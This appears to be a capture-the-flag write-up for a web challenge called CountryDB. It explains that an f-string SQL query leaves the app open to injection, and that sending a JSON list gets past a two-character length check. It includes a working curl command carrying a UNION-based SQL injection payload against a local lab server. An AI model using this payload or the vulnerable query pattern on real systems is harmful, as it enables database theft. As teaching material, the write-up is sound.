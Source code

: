 # CountryDB

This is a very simple web application which takes a country code and returns the country name and flag emoji. Looking at the source code in `app.py`, we see that there is a `/api/search` endpoint which takes a `code` parameter and returns a JSON response. The app checks if the length of this parameter is equal to 2 and then passes that into the `db_search` function which executes the following SQL Query:
    
```sql
cur.execute(f"SELECT name FROM country WHERE code=UPPER('{code}')")
```
We have an sql injection here because the `code` parameter is not sanitized.

In order to pass the `len(code) != 2` check, we can make the code parameter a list with two elements instead of a string which will pass the check. We can then use a union based sql injection to get the flag.

```bash
$ curl -X POST -H 'Content-Type: application/json' http://localhost:8020/api/search -d $'{"code":["\') UNION SELECT flag FROM flag -- - ","123"]}'

{"name":"FakeCTF{*** REDACTED ***}"}
```